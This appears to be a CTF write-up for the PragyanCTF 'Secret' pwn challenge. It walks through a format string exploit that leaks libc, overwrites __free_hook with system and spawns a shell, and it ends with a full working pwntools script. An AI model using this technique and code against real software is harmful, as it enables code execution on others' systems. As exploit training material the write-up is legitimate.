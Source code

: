 ```yaml
---
title: '[PragyanCTF] Secret'
published: true
tags: [writeup, pwn, fmtstr]
author: Christos.S
---
```



This is a very good challange to polish and/or improve your `format string` skills. But since the CTF's server got hacked and couldn't exploit their server, I tried to at least write an exploit for the program locally with `libc 2.30`.

I first checked what security features are enabled in the binary.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

I then opened the binary in [Ghidra](https://ghidra-sre.org/) and started looking through the decompiled code.
After some time looking through the code, I found what I was looking for... A vulnerability I could exploit.

In the function `show_task`, I found this:

```c
    void show_tasks(task *current) {
        printf("\n\nName: %s\n",current->name);
        printf("Date: %s\n",current->num);
        printf("Length: %d\n",current->desc_length);
        printf("Description: ");
        printf(current->desc);
        return;
    }
```

The vulnerable line of code is 
```c
printf(current->desc);
```
with a `format string` vunerability

Then my first thought was to look in the binary symbols for the function `system`; with no success. This led me to believe that I should start the exploit by leaking the `libc base` address.

So now that I have a basic understanding of the binary I can think of the attack:

1. Leak `libc base` address
2. Write the `system` function's address in the `__free_hook`
3. Free an address the points to the string `/bin/sh`

> In step 2 I could have as easily overwriten the GOT entry of some funtion, since the binary only has `Partial RELRO`; but I wanted to try something different with the hook functions I have read about.

Before I start I created 3 functions to interface with the 3 main functionalities of the binary:
1. Create Task
2. Remove Task
3. Display Tasks

___

## Step 1

I found an address on the stack at the `35th` place which points `249` bytes after the start of `__libc_start_main`

```python
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']
```

So after a simple substruction I was able to obtain the `libc base` address

___

## Step 2

This was by far the hardest step in the process. Writing `system`'s address in `__free_hook`. I was not able to just put the address I wanted to overwrite (`__free_hook`) on the the stack because simply my input was never saved on the stack; it went straight onto the heap. So my next option was to find an address on the stack (`2nd` place) that points to another address on the stack (`9th` place). 

Since the address that I wanted to overwrite (`9th` place) on the stack had a chance to have the same highest 2 bytes as the `__free_hooks`, I just written the lowest 2 bytes.

```python
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')
```

Then because I couldn't just write that huge of a number (address of `system`) in one go, I split it into 2 seperate writes. In the first one I wrote the lowest 2 bytes of `system`, changed the address I had on the stack to point 2 bytes forword so I was able to write the highest 2 bytes of `system` in the `__free_hook`

```python
createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')
```

After all this I triggered the the `format string exploit` with `displayTasks()`.

___

## Step 3 

What is now left to do is just free an address that has the string `/bin/sh` written in it. Luckly in the `remove_task` function,

```c
memset(task_ptr->name,0,0x40);
task_ptr->enabled = 0;
task_ptr->desc_length = 0;
free(task_ptr->num);
free(task_ptr->desc);
printf("Removed %s",removename);
```
the first thing that is freed is the `num` field of the `task structure` which is the `date` that is asked when creating a task.

The 1st task I created had `/bin/sh` in the `date` or `num` field, so as soon as that is freed, `system` will be executed with `/bin/sh` giving us a shell!!

```python
removeTask('pwned')
```

---

Below is the full `xpl.py` script:

```python
#!/usr/bin/python
from pwn import *
import re

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./task')

gdbscript = '''
init-gef
c
'''

def start():
	if args.GDB: return gdb.debug(elf.path, gdbscript)
	else: return process(elf.path)

io = start()

def createTask(name, date, descLen, desc):
	io.sendlineafter(':', '1')
	io.sendlineafter(':', name)
	io.sendlineafter(':', date)
	io.sendlineafter(':', str(descLen))
	io.sendlineafter(':', desc)

def removeTask(name):
	io.sendlineafter(':', '2')
	io.sendlineafter(':', name)

def displayTasks():
	io.sendlineafter(':', '3')
	return io.recvuntil('1.')[:-2]

# Leak libc base address
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']

log.success('libc_start_main: 0x%x' % libc_start_main)
log.success('libc base: 0x%x' % libc_base)

# Overide __free_hook with system
system_libc = libc_base + elf.libc.symbols['system']
free_hook = libc_base + elf.libc.symbols['__free_hook']

log.success('system: 0x%x' % system_libc)
log.success('__free_hook: 0x%x' % (free_hook))

# Write __free_hook addr on the stack
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')

log.success("Ready to overwrite __free_hook")

createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')

displayTasks()

removeTask('pwned')

io.interactive()
```
